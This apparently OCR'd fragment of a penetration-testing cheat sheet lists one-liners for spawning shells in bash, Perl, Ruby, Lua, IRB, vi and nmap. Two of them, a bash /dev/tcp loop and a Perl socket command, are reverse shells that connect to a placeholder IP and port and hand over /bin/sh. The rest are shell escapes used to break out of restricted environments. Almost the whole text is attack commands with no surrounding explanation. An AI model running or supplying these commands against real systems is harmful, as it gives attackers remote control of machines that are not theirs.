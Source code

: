 	/bin/sh -i
	
	exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done
	
<b>Perl:</b>
	
	perl —e 'exec "/bin/sh";'
	
	perl: exec "/bin/sh";
	
	perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	
<b>Ruby:</b>
	
	ruby: exec "/bin/sh"
	
<b>Lua:</b>
	
	lua: os.execute('/bin/sh')

<b>From within IRB:</b>
	
	exec "/bin/sh"
	
<B>From within vi:</B>
	
	:!bash
	
<B>From within vi:</B>

	:set shell=/bin/bash:shell
	
<B>From within nmap:</B>
	
	!sh
